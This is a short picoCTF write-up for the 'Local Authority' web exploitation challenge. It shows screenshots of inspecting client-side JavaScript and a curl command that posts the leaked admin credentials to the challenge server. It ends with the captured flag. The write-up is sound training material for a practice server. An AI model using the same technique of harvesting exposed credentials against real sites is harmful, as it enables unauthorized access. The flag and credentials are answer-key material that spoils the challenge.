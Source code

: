 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

OPTION 1
### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

    curl -X POST \
      -d 'username=admin' \
      -d 'password=strongPassword098765' \
      -d 'hash=2196812e91c29df34f5e217cfd639881' \
      "http://saturn.picoctf.net:64293/admin.php" | grep -oE "picoCTF{.*}" | tee >(xsel -b)

![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
